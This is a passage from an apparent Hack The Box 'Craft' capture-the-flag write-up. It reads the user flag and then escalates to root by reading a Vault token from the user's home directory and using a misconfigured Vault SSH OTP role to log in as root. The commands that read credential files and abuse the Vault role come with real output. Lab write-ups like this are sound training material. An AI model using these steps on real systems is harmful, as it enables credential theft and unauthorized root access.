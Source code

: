 ```
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gilfoyle@craft:~$ ls
user.txt
gilfoyle@craft:~$ cat user.txt
bbf4b0ca...
```

## Privesc

I saw from the `craft-infra` repo that Vault is installed and I see that Gilfoyle has a vault token in its home directory:

```
gilfoyle@craft:~$ ls -la
total 36
drwx------ 4 gilfoyle gilfoyle 4096 Feb  9 22:46 .
drwxr-xr-x 3 root     root     4096 Feb  9 10:46 ..
-rw-r--r-- 1 gilfoyle gilfoyle  634 Feb  9 22:41 .bashrc
drwx------ 3 gilfoyle gilfoyle 4096 Feb  9 03:14 .config
-rw-r--r-- 1 gilfoyle gilfoyle  148 Feb  8 21:52 .profile
drwx------ 2 gilfoyle gilfoyle 4096 Feb  9 22:41 .ssh
-r-------- 1 gilfoyle gilfoyle   33 Feb  9 22:46 user.txt
-rw------- 1 gilfoyle gilfoyle   36 Feb  9 00:26 .vault-token
-rw------- 1 gilfoyle gilfoyle 2546 Feb  9 22:38 .viminfo

gilfoyle@craft:~$ cat .vault-token
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
```

The `secrets.sh` config in the repo contains the following:

```
vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

I can get an OTP user token for root and log in using `vault ssh -mode=otp -role=root_otp root@10.10.10.110`:

![](/assets/images/htb-writeup-craft/root.png)
